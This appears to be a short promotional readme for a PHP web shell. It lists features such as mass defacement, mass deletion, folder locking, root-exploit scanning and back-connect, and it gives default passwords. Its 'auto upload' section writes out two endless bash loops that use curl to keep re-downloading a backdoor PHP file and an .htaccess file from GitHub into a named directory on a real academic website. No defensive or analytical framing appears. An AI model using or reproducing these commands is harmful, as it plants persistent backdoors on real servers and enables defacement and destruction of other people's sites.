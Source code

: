 ++++++++++++++++++++++++++++++++++
FITURE SHELL : 

- MASS DEFACE
- MASS DELETE
- LOCK FOLDER
- UNLOCK FOLDER
- GREEN ALL FILE
- GREEN ALL FOLDER
- SCAN FILE EXPLOIT ROOT
- BACK CONNECT / NETWORK
- LOCK SHELL
- CHMOD SHELL


pass default : root

pass default : whohaxorqt1337

===========================================
auto upload sc: 
===========================================

bash -c 'while true; do if [ ! -f "/var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/index.php" ]; then curl -o /var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/index.php https://raw.githubusercontent.com/GanestSeven/backdoor-mini/refs/heads/main/1337.php; fi; sleep 20; done' &

bash -c 'while true; do if [ ! -f "/var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/.htaccess" ]; then curl -o /var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/.htaccess https://raw.githubusercontent.com/GanestSeven/file-htaccess/refs/heads/main/htaccess-nonphp.txt; fi; sleep 20; done' &
